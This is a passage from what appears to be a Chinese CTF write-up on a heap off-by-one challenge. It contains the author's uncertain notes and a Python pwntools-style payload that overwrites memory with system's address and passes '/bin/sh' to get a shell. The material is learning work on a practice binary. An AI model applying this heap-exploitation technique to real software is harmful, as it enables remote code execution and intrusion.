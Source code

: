 构造之后

![38](/chunk_offbyone/38.png)

(后来检查的时候发现这里构造错了，58230之后还要有两个0)

堆块D的struct如下

![39](/chunk_offbyone/39.png)

不知道为什么 原本有的payload没有在内存中显示出来。



...两个月后再次看这道题，因为自己期间换过一次内核，所以地址略微有些许滴不一样。

理解一下后面的思路吧～

再构建一个e堆块，这里应该是触发漏洞

```python
payload = p8(0)*0xb
payload += p64(system_addr)
payload += p8(0)*0x4d
PUT("e"*0x8, 0x60, payload)

payload = "/bin/sh"
payload += p8(0)*0x12
GET(payload)
```

其实到现在这里还是不太理解，但是这个题略微复杂了一些，不适合我这种(学了两年半的)新手，就先亦已焉哉。